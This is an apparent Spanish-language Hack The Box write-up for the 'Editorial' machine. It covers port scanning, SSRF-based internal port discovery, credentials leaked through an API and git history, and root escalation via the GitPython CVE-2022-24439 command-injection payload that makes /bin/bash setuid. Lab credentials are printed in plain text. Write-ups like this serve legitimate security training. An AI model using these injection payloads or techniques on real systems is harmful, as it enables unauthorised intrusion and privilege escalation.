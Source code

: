 ```yaml
---
title: Editorial - Hack The Box
date: 2024-10-04
description: Maquina Editorial (Easy) de Hack The Box.
categories:
    - Writeups
    - HTB
tags:
    - Linux
    - HTB
    - CTF
    - Easy
    - Seasonal
media_subpath: /assets/img/commons/editorial/
image: editorial.png
---
```


## Escaneo

```bash
nmap -p- --open -sS -min-rate 5000 -vvv -n -Pn -oG allPorts 10.10.11.20
```

Puertos abiertos: 22 y 80

## Análisis

```bash
nmap -sCV -p22,80 -oN targeted 10.10.11.20

`22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

El puerto 80 da acceso a la web de http://editorial.htb

En la web no hay nada destacable a excepción del apartado "Publish with us" que lleva a http://editorial.htb/upload.

En upload, permite proveer libros a la web de dos formas: subiendo el fichero o a través de la url.

Al subir un fichero o facilitar una URL, devuelve la URL del fichero subido:

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 02 Oct 2024 14:52:31 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 51`

static/uploads/61089ce8-87f6-4a5f-83e6-1e21a65c3335`
```

## Explotación

Pasándole como URL la localhost y atacando los 65532 puertos se puede evaluar, viendo el tamaño del "`Content-Length`" si hay una respuesta distinta, lo que puede implicar que el puerto esté abierto y respondiendo solo a consultas internas.
A excepción del puerto 5000 con 51, todos los puertos restantes devuelven lenght 61.

Al hacer GET de la URL devuelta por el puerto 5000 se obtiene un json de parámetros de una API:

```json
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}`
```

Una consulta POST contra "/api/latest/metadata/messages/authors" devuelve una URL que al hacerle GET devuelve un JSON con credenciales:

```json
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}`
```

>Username: dev  
>Password: dev080217_devAPI!@  

El usuario tiene acceso por SSH y al conectarse se obtiene la User Flag.

## Escalada

find / -perm -4000 -user root 2>/dev/null

```bash
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/libexec/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/umount
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/su
```

Nada destacable.

En la carpeta home existe la carpeta `.git`
Con `git log` se ve un commit con la información:

```
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.`
```

Consultando los cambios de este commit con `git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae` se extrae un usuario y contraseña de producción:

```bash
WARNING: terminal is not fully functional
Press RETURN to continue 
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest  regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
# -------------------------------
```

>Username: prod  
>Password: 080217_Producti0n_2023!@  

Accediendo a este usuario por SSH se observa que no tiene credenciales de root:
```bash
ssh prod@10.10.11.20
prod@editorial:~$ sudo su
Sorry, user prod is not allowed to execute '/usr/bin/su' as root on editorial.
```
Pero sí tiene permiso para ejecutar una aplicación en python3 con credenciales de root:
```bash
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

```bash
prod@editorial:~$ cat /opt/internal_apps/clone_changes/clone_prod_change.py 
```

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

Esta aplicación es vulnerable a RCE segun el [CVE-2022-24439](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858):

```python
from git import Repo
r = Repo.init('', bare=True)
r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])
```

Por lo que se modifica bash para permitir el escalado:

```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% u+s% /bin/bash'

$ /bin/bash -p
bash-5.1# whoami
root
```

Como root se tiene acceso a la Root Flag.
